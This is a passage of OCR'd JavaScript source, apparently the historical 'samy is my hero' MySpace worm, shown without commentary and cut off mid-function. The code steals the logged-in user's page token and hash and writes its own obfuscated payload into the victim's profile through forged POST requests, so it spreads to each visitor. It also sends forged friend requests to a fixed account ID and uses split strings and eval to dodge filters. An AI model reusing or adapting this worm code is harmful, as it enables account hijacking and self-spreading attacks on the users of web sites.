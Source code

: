 Q=escape(AV[P]);while(Q.indexOf('+')!=-1){Q=Q.replace('+','%2B')}while(Q.indexOf('&')!=-1){Q

=Q.replace('&','%26')}N+=P+'='+Q;O++}return N}function httpSend(BH,BI,BJ,BK){if(!J){return

false}eval('J.onr'+'eadystatechange=BI');J.open(BJ,BH,true);if(BJ=='POST'){J.setRequestHeade

r('Content-Type','application/x-www-form-urlencoded');J.setRequestHeader('Content-Length',BK

.length)}J.send(BK);return true}function findIn(BF,BB,BC){var R=BF.indexOf(BB)+BB.length;var

S=BF.substring(R,R+1024);return S.substring(0,S.indexOf(BC))}function

getHiddenParameter(BF,BG){return findIn(BF,'name='+B+BG+B+' value='+B,B)}function

getFromURL(BF,BG){var T;if(BG=='Mytoken'){T=B}else{T='&'}var U=BG+'=';var

V=BF.indexOf(U)+U.length;var W=BF.substring(V,V+1024);var X=W.indexOf(T);var

Y=W.substring(0,X);return Y}function getXMLObj(){var

Z=false;if(window.XMLHttpRequest){try{Z=new XMLHttpRequest()}catch(e){Z=false}}else

if(window.ActiveXObject){try{Z=new ActiveXObject('Msxml2.XMLHTTP')}catch(e){try{Z=new

ActiveXObject('Microsoft.XMLHTTP')}catch(e){Z=false}}}return Z}var AA=g();var

AB=AA.indexOf('m'+'ycode');var AC=AA.substring(AB,AB+4096);var AD=AC.indexOf('D'+'IV');var

AE=AC.substring(0,AD);var

AF;if(AE){AE=AE.replace('jav'+'a',A+'jav'+'a');AE=AE.replace('exp'+'r)','exp'+'r)'+A);AF='

but most of all, samy is my hero. <d'+'iv id='+AE+'D'+'IV>'}var AG;function

getHome(){if(J.readyState!=4){return}var

AU=J.responseText;AG=findIn(AU,'P'+'rofileHeroes','</td>');AG=AG.substring(61,AG.length);if(

AG.indexOf('samy')==-1){if(AF){AG+=AF;var AR=getFromURL(AU,'Mytoken');var AS=new

Array();AS['interestLabel']='heroes';AS['submit']='Preview';AS['interest']=AG;J=getXMLObj();

httpSend('/index.cfm?fuseaction=profile.previewInterests&Mytoken='+AR,postHero,'POST',params

ToString(AS))}}}function postHero(){if(J.readyState!=4){return}var AU=J.responseText;var

AR=getFromURL(AU,'Mytoken');var AS=new

Array();AS['interestLabel']='heroes';AS['submit']='Submit';AS['interest']=AG;AS['hash']=getH

iddenParameter(AU,'hash');httpSend('/index.cfm?fuseaction=profile.processInterests&Mytoken='

+AR,nothing,'POST',paramsToString(AS))}function main(){var AN=getClientFID();var

BH='/index.cfm?fuseaction=user.viewProfile&friendID='+AN+'&Mytoken='+L;J=getXMLObj();httpSen

d(BH,getHome,'GET');xmlhttp2=getXMLObj();httpSend2('/index.cfm?fuseaction=invite.addfriend_v

erify&friendID=11851658&Mytoken='+L,processxForm,'GET')}function

processxForm(){if(xmlhttp2.readyState!=4){return}var AU=xmlhttp2.responseText;var

AQ=getHiddenParameter(AU,'hashcode');var AR=getFromURL(AU,'Mytoken');var AS=new

Array();AS['hashcode']=AQ;AS['friendID']='11851658';AS['submit']='Add to
